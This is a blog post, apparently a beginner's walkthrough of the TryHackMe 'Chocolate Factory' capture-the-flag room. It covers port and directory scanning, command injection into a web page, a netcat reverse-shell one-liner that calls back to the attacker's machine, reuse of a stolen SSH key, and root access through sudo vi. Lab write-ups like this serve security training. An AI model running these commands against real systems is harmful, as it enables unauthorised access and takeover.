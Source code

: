 ```yaml
---
layout: post
title: Tryhackme Chocolate Factory Walkthrough 
date: 2017-09-12 00:00:00 +0300
description: You’ll find this post in your `_posts` directory. Go ahead and edit it and re-build the site to see your changes. # Add post description (optional)
img: titlephoto1.jpg # Add image post (optional)
tags: [Tryhackme, CTF] # add tag
---
```


Today’s blog post — I will give a walk-through on room called, “Chocolate Factory”. This is perfect practice for Beginners 

Let’s get started.
Firstly Diploy the machine and Wait a minute for get ip address to start.

![init]({{site.baseurl}}/assets/img/cholocate.tryhackme/init.png)

### Enumeration 
 > sudo nmap -sV -sC -v <ip>
   <br />
  -sV: Probe open ports to determine service/version info <br />
  -sC: equivalent to --script=default <br />
   -v: verbose mode <br />
the result like look,<br />

![init]({{site.baseurl}}/assets/img/cholocate.tryhackme/init.png)
![nmap]({{site.baseurl}}/assets/img/cholocate.tryhackme/nmap.png)  

There can see ftp running on port 21,ssh running on port 22 and webserver in port 80 Then try Open browser enter ip address default webserver running in port 80 

I trying sqlinjection but nothing changes ,So Check the directories using gobuster 
> gobuser dir -u <ip> -w /usr/share/seclists
  
OK.. Here see home.php <br />
 ![nmap]({{site.baseurl}}/assets/img/cholocate.tryhackme/command.ls.png)  
  try system commands then reverse connection command 
  
 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip> <port> >/tmp/f'
 
 remember one thing  disable your ufw firewall before run the listerning netcat <br />
  listern our system 
  > nc -lvnp  <br />
    -l listen mode, for inbound connects <br />
    -v verbose <br />
    -n numeric-only IP addresses, no DNS <br />
    -p local port number <br />
    
   ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/reverse2.png) 
   
   use python3 shell for better interaction <br />
   python3 -c 'import pty; pty.spawn("/bin/sh")' <br />
   then list out file and read key
   
   ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/cat.key.png)
  
   change the user to charlie <br/>
   /home/charlie and list all files <br />
   found RSA key in this folder called teleport and I copied it to my machine and saved that under the name id_rsa.change permission
   > chmod 600 filename <br />
   login with ssh charlie 
   ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/sshcharlie.png) <br />
   read the user key <br />
   ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/userflag.png) <br />
  ### privilege escalation 
  
    check the current user privilege 
    > sudo -l 
    
 <br/>
 ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/userprivilege.png)
   get root permission using vi 
   use this website gtfobins.github.io/
   search vi get result 
   
   ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/root.png) <br />
   copy the command and paste into terminal 
   Now root user
   change charlie to root 
   su root 
   run the file with key
   DONE 
  
 

